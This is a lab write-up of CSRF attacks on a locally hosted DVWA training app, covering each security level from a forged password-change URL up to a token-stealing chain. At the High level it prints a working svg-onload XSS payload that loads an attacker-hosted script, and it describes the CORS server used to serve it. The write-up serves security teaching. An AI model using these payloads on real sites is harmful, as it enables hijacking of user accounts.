# Cross-Site Request Forgery (CSRF)

**Location:** `http://127.0.0.1:42001/vulnerabilities/csrf/`

## What the page does

Admin can change their own password from this page. The form submits over GET with two parameters: `password_new` and `password_conf`. On the server, if the two match, the admin's password in the database is updated.

The vulnerability is that a state-changing action is triggered by a request that carries only the session cookie for authentication. A logged-in admin's browser will send that cookie automatically on any request to the DVWA host, including a request planted by an attacker on a page the admin visits. If nothing on the server checks that the request originated from a real admin click on the DVWA form, the password change succeeds.

## Setup

DVWA running locally on Kali at port 42001. All exercises performed while logged in as admin, since CSRF is about forging admin's own requests. Between security levels the database is reset from **Setup / Reset DB** to restore the default password.

---

## Low

### Form



Two password fields, a submit button. No hidden token, no additional verification field.

### Source



The handler reads `$_GET['password_new']` and `$_GET['password_conf']`, checks they match, then runs `UPDATE users SET password = '$pass_new' WHERE user = 'admin'`. Nothing verifies the origin of the request.

### Exploit

The attack is a single URL:

`http://127.0.0.1:42001/vulnerabilities/csrf/?password_new=hacked&password_conf=hacked&Change=Change`

While logged in as admin, opening that URL in a new tab triggers the password change.

The page shows "Password Changed." at the top. In a real attack the attacker would host that URL as a link or embed it as an `` on a page they lure the admin to. The admin's browser sends the request with the DVWA cookie attached, and the change happens without the admin noticing.

### Verification



After logging out, `admin` / `password` fails and `admin` / `hacked` succeeds. The DVWA welcome page confirms the login.

### Why it works

Cookies are attached automatically by the browser to any request sent to the host that issued them. The server has no way to distinguish a request the admin actually made from a request some other page told the admin's browser to make. Without an origin check or a per-request token, every state-changing endpoint reachable by GET is exploitable.

---

## Medium

### Source



Medium adds one check that only accepts the request if the Referer header contains the server's hostname, using a case-insensitive substring search (`stripos`). The intent is to reject requests originating from other sites.

### First bypass: navigation from within the same session



Loading the Low exploit URL directly in a new tab still works. The reason is subtle: the browser sends Referer based on where the request came from, and if the previous page was on `127.0.0.1`, the Referer contains `127.0.0.1`, satisfying `stripos`. Any URL anywhere on the same host defeats this filter for requests originating from within the DVWA session itself.

### Second bypass: attacker-hosted page with the hostname in its URL

The realistic attack. The attacker hosts a page whose URL contains the target hostname anywhere in it, then embeds a hidden request to the target.

Attacker payload (`csrf-attack.html`):

- HTML page with a hidden ``.

Served from a local Python HTTP server bound to 127.0.0.1 on port 8888.

The admin, while logged into DVWA in another tab, visits `http://127.0.0.1:8888/csrf-attack.html`.



The hidden `` fires a GET to DVWA. The browser attaches admin's session cookie. The Referer sent with the request is `http://127.0.0.1:8888/csrf-attack.html`, which contains "127.0.0.1", so `stripos` returns a valid position and the change is accepted.

### Verification



`admin` / `hacked` succeeds.

### Why it works

A substring match on the Referer treats any URL containing the hostname as trustworthy. The attacker's URL is on `127.0.0.1:8888`, a completely different port and application, but the substring is still there. The Referer header is also under browser control in ways the server cannot verify, so relying on it for authorization decisions is fragile even when the check is stricter.

---

## High

### Form

The form looks the same as Low visually, but the underlying HTML now includes a hidden `user_token` field with a fresh random value generated on every page load.

### Source




Two new elements: a `checkToken` call at the top that validates the submitted `user_token` against the token stored in the server session, and a `generateSessionToken` call at the bottom that generates a fresh token on every page load. If the token check fails, `checkToken` redirects to `index.php` and the password change never runs.

### Attempted attack without a valid token

Loading the Low/Medium exploit URL directly returns the CSRF page with no "Password Changed." message.

Proof the change did not happen:



`admin` / `hacked` returns "Wrong password for 'admin'", and `admin` / `password` still returns "Valid password for 'admin'". The token check successfully blocked the forged request.

### Bypass: steal the token via reflected XSS

The token check is real defense. Breaking it requires obtaining a valid token first. DVWA has a reflected XSS on `/vulnerabilities/xss_r/` served from the same origin as CSRF, so an injected script can read the CSRF form (which returns a fresh token) and then submit the change with that token attached.

The exploit chain has three pieces.

**Payload script (`high.js`)** hosted on the attacker's server. It performs two XMLHttpRequests: the first GETs the CSRF form and parses out the current `user_token` from the response, the second GETs the change-password URL with `password_new`, `password_conf`, and the extracted `user_token` attached.

**CORS-enabled Python server (`cors-server.py`)** so the browser can load `high.js` across origins. It subclasses `SimpleHTTPRequestHandler` and adds `Access-Control-Allow-Origin: *` to every response.

Started with `python3 cors-server.py 8888` from `/tmp`.

**XSS injection payload**, submitted on the DVWA XSS (Reflected) page:

`<svg/onload="var s=document.createElement('script');s.src='http://127.0.0.1:8888/high.js';document.body.appendChild(s);">`

DVWA's High XSS filter blocks `<script>` and `` tags but does not block `<svg>` or its `onload` attribute. When the SVG element is parsed, `onload` fires, creates a `<script>` tag pointing to the attacker's server, and injects it into the page. The browser loads `high.js` (permitted by the CORS header the attacker's server sends), executes it, fetches the CSRF form with admin's cookie attached, extracts the fresh token, and submits the password change with that token attached.



The CORS server log confirms the exploit fired: `127.0.0.1 - - [11/Sep/2026 14:01:41] "GET /high.js HTTP/1.1" 200 -`.

### Verification



The Test Credentials popup shows "Valid password for 'admin'" with `hacked` in the password field. The exploit chain succeeded.

### Why it works

The CSRF token defense assumes the attacker cannot obtain the current token. That assumption holds only if every other vulnerability on the same origin is closed. Reflected XSS on the same host lets attacker-controlled JavaScript run in the admin's session, at which point the token stops being secret. The two vulnerabilities feed each other: XSS supplies the token, CSRF supplies the sensitive action.

---

## Impossible

### Form



The form now has three password fields: Current, New, and Confirm. The attacker cannot fill in the Current field without already knowing the value they would be trying to steal.

### Source



Three changes together defeat the attack:

1. Current-password re-authentication. Before applying any change, the server runs a PDO prepared statement that selects the row where `user = :user AND password = :password`. If `rowCount()` is not 1, the current password was wrong and no update happens.
2. PDO prepared statements with bound parameters. Both the check and the update use prepared statements, so no SQL injection is possible even if the input contained SQL fragments.
3. Anti-CSRF token retained. The `checkToken` call at the top and `generateSessionToken` at the bottom stay in place from High.

### Why it works

The proof of intent is that only the admin can supply the current password. Even a valid CSRF token stolen through XSS is not enough anymore, because the attacker would also need to know what they are trying to change. The system stops relying on the browser to prove intent and instead asks the human to prove it, by producing a secret only they should know.

---

## Takeaways

1. CSRF exists whenever a state-changing action can be triggered by a request that carries only the session cookie. GET requests that change state are the classic case, but POST forms without token checks are equally vulnerable.
2. Referer checks are not authorization. They defend against the crudest attacks but fall to any URL that happens to contain the target hostname as a substring, and they can be suppressed by the browser in cases the server cannot detect.
3. Anti-CSRF tokens work only under the "same origin has no XSS" assumption. The moment an attacker can run JavaScript on the target origin, the token is readable and the defense fails. CSRF tokens and XSS mitigations are not independent controls, they depend on each other.
4. Re-authenticating with a shared secret closes the loop. Requiring the current password (or a fresh OTP, or a hardware key touch) for high-value actions turns CSRF from a critical vulnerability into an inconvenience: the attacker would need to already know the secret they are trying to change.
